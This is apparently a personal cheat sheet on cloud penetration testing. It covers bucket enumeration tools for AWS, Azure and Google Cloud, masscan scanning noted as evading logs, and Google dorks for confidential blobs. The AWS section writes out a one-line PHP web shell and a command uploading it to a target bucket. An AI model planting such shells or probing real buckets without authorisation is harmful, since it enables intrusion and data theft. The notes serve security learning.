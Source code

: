 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      
S3 Buckets: https://s3.amazonaws.com/{bucketname}        
[bucketfinder](https://github.com/FishermansEnemy/bucket_finder/tree/master): look for interesting files on Amazon S3 buckets.       
Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Search for files with keywords in buckets using [bucket_finder](https://github.com/FishermansEnemy/bucket_finder):     

    bucket_finder.rb search_term --download         
AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
Denonia cryptominer malware targeted Lambda.     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     
